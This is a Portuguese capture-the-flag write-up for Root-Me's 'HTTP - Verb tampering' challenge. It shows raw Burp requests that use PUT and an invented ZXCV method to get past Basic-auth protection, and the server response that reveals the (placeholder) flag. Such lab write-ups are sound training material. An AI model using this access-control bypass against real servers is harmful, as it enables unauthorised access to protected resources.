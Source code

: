 # HTTP - Verb tampering

Como o nome do desafio indica um Verb Tampering, é presumível que estamos lidando com o caso em que adulteração do método na requisição permite um bypass.

Uma leitura básica no link sobre [Verb Tampering](https://www.imperva.com/learn/application-security/http-verb-tampering/) do site da Imperva, aprendemos que com adulteração arbitrária do método ou utilizando métodos não bloqueados durante a requisição, o bypass é possível em alguns servidores afetados como nos exemplos abaixo utilizando o Intruder do Burp Suit:

## Método não bloqueado:
<b>Requisição:</b>
<pre>PUT /web-serveur/ch8/ HTTP/1.1
Host: challenge01.root-me.org
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
Cache-Control: max-age=0
Authorization: Basic dGVzdGU6dGVzdGU=
</pre>

## Método arbitrário:
<b>Requisição:</b>
<pre>
ZXCV /web-serveur/ch8/ HTTP/1.1
Host: challenge01.root-me.org
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
Cache-Control: max-age=0
Authorization: Basic dGVzdGU6dGVzdGU=
</pre>



<b>Resposta p/ ambos os casos:<b/>
<pre>
< html>< head>
< /head>

< h1>Mot de passe / password : (flag_here)< /h1>
< /body>< /html></pre>

